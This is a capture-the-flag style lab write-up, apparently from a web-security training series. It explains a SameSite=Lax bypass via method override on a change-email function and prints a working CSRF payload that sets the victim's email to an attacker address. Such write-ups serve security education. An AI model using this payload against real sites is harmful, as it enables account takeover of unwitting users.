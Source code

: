 # SameSite Lax bypass via method override
# Objective
This lab's change email function is vulnerable to CSRF. \
To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.\
You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
Website has `Change email` functionality which is not protected by `CSRF` token. There is no `SameSite` option specified - Chrome enforces `Lax` by default.

|![](Images/image-25.png)|
|:--:| 
| *Test of change email functionality - CSRF token is not preset* |
|![](Images/image-26.png)|
| *Cookie configuration - no SameSite option specified* |

## Exploitation
Changing request method and adding `_method=POST` parameter inn URL allows to send valid `Change email` request.

Exploit server configuration:
```html
<script>
    document.location = "https://<id>.web-security-academy.net/my-account/change-email?email=attacker@attack.attack&_method=POST";
</script>
```

|![](Images/image-27.png)|
|:--:| 
| *Change email request via GET request* |
|![](Images/image-28.png)|
| *Exploit server configuration* |